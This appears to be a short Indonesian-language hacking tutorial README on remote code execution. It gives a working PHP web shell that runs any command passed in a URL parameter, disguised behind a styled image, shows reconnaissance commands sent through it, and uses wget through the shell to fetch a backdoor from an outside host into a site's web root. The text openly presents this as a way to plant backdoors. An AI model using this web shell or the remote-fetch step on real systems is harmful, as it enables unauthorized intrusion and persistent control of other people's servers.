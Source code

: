 ### Remote Code Execution

<p align="center">
<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png">

Basic For Remote Code Execution ( Critical )

Contoh Kasus Nya Kayak Gini Lur

```
<style>body{font-size: 0;}h1{font-size: 12px}</style><h1>
<?php if(isset($_REQUEST['cmd'])){system($_REQUEST['cmd']);}else{echo '<img src="https://i.ibb.co/3TNyvvW/20201211-095009.png" border=0>
';}__halt_compiler();?></h1>
```

### Basic Rce

Misal Gua Upload File : rce.php

Request Dari php nya adalah = cmd

Cara Akses ? :
```
http://site.com/rce.php?cmd=
```

Oke Kita Jalankan Beberapa Perintah Dasar RCE
```
http://site.com/rce.php?cmd=ls
http://site.com/rce.php?cmd=whoami
http://site.com/rce.php?cmd=uname -a
http://site.com/rce.php?cmd=id
```

### Reverse Shell Via RCE
Kita Menggunakan Command wget 
```
http://site.com/rce.php?cmd=wget http://dyan6etar.cf/shell.txt -O namashell.php
```
Jika Sudah Kita Akses Di Dokumen Root : site.com/namashell.php

### Penjelasan Singkat
Penjelasan Singkat Tentang Command wget :

wget menurut Otak Gua : Menarik File Dari Luar Server dan Juga Membuat Di Dalam Server

Sedangkan -O Untuk Menamakan File Tersebut 

Sebagai contoh : Saya Telah Membuat Shell Dengan Ekstensi txt Dan Menguploadnya di hosting lain artinya itu diluar server , nah dengan perintah wget kita bisa menarik file itu ke dalam server cuk dan di buat filenya dengan perintah -O.

Tentu Saja Ini Bisa Di Manfaatkan Untuk Up Shell BackDoor

Oke Sekian Sayang:v
